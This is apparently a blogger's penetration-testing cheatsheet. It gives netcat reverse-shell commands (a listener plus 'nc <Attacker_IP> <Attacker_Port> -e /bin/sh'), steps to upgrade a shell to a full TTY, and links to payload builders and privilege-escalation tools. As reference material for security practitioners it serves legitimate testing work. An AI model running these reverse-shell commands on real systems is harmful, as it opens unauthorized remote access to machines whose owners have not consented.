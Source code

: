 ```yaml
---
title: PenTest Cheatsheet
author: z3nn
date: 2020-09-18 20:31:00 +0200
categories: [Hacking, Cheatsheet]
description: Penetration Testing Cheatsheet
tags: [hacking, pentest, cheatsheet, linux]
---
```


This cheatsheet is a compilation of the most used `things` I need when pentesting, I will try to link the refference for the information and give credit where credit is due.

## Reverse shell using netcat

Open listener on attacking machine.
```shell
$ nc -lnvp <Listening_Port>
```

On target machine open the reverse shell to the attacking machine's IP and open port
```shell
$ nc <Attacker_IP> <Attacker_Port> -e /bin/sh
```

> The target machine can open a reverse shell in multiple ways, use [PentestMoneky](http://pentestmonkey.net/) for various reverse shells
> A good PHP reverse shell can be found on [PentestMoneky](https://github.com/pentestmonkey/php-reverse-shell)'s github repo.


## Upgrading a reverse shell

```shell
# In reverse shell
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In attacking machine
$ stty raw -echo
$ fg

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
```

> Other ways to upgrade a reverse shell can be found [here](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)


## MSFVenom payloads & more

I've found [PenTest.WS](https://pentest.ws/tools/venom-builder) to have a great online GUI tool to aid in creating MSF Venom payloads.
[PenTest.WS](https://pentest.ws/tools/shells) also contains various other tools like Reverse Shell builder.
I haven't yet used the `+ Create Engagement` option but will most likely have a go at it soon.


## PrivEsc

### Linux

No doubt, the best thing for me has been [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

### Windows

For Windows PrivEsc there are multiple things one can use to enumerate and look for PrivEsc options... Here's a few usefull things
* [WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)
* [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)
* [Powerless](https://github.com/M4ximuss/Powerless)

Another great tool to use in both PenTest and further enumeration where possible is [Evil-WinRM](https://github.com/Hackplayers/evil-winrm)


